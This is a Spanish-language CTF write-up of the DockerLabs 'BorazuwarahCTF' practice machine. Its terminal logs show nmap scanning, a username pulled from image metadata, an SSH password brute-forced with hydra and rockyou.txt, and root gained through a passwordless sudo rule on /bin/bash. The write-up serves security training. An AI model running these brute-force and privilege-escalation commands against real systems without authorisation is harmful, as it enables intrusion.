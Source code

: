 ```yaml
---
title: BorazuwarahCTF
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-04
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - steganography
  - password_attacks
  - sudo_abuse
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.044 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.044/0.044/0.044/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos. 

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ sudo nmap -sCV -p22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDuOdJLZN+CNU+7dcTJQbPr6zY2+Ou1YFR0w9Pan1DfaPUZljRHJcNmvSncrihzQ3HOAHfMWWvSzN+ZMC0YmWoA=
|   256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGDv2JqKvBCR+Badmkr7YKPypEYshuCXxzM5+YdozyBD
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[127.17.0.2]
```

---
## Web Analysis

Al analizar el servicio web, solo se muestra una página vacía que contiene una imagen. 

![](assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf1.png)

Al inspeccionar el código fuente de la página, confirmo que el único contenido relevante es la referencia a una imagen con el nombre `imagen.jpeg`.

![](assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf2.png)

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ wget http://127.17.0.2/imagen.jpeg
--2025-01-04 20:28:53--  http://127.17.0.2/imagen.jpeg
Connecting to 127.17.0.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18667 (18K) [image/jpeg]
Saving to: ‘imagen.jpeg’

imagen.jpeg                                 100%[===========================================================================================>]  18.23K  --.-KB/s    in 0s
2025-01-04 20:28:53 (1.03 GB/s) - ‘imagen.jpeg’ saved [18667/18667]
```

Descargo la imagen y utilizo exiftool para extraer los metadatos. En ellos encuentro un usuario `borazuwarah`.

Después de descargar la imagen del servidor, utilizo exiftool para analizar los metadatos en busca de información útil. Este análisis revela el usuario `borazuwarah`.

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ exiftool imagen.jpeg
```

![](assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf3.png)

Con el nombre de usuario `borazuwarah`, realizo un ataque de fuerza bruta contra el servicio SSH.

---
## Vulnerability Exploitation

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ sudo hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

![](assets/img/dockerlabs-writeup-borazuwarahctf/borazuwarahctf4.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/borazuwarahctf:-$ ssh borazuwarah@127.17.0.2
borazuwarah@127.17.0.2's password: 123456

borazuwarah@kali:~$ id
uid=1000(borazuwarah) gid=1000(borazuwarah) groups=1000(borazuwarah),27(sudo)
```

---
## Privilege Escalation


```terminal
borazuwarah@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
borazuwarah:x:1000:1000::/home/borazuwarah:/bin/bash
```

El usuario `borazuwarah` tiene permisos completos para ejecutar cualquier comando como cualquier usuario, incluyendo `root`.

```terminal
borazuwarah@kali:~$ sudo -l
Matching Defaults entries for borazuwarah on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on kali:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Dado que el usuario puede ejecutar `/bin/bash` como `root` sin proporcionar contraseña, inicio una shell con privilegios de superusuario. La ejecución de este comando eleva mis privilegios al usuario `root`, confirmando el control completo del sistema.

```terminal
borazuwarah@kali:~$ sudo /bin/bash
root@kali:/home/borazuwarah# id
uid=0(root) gid=0(root) groups=0(root)
```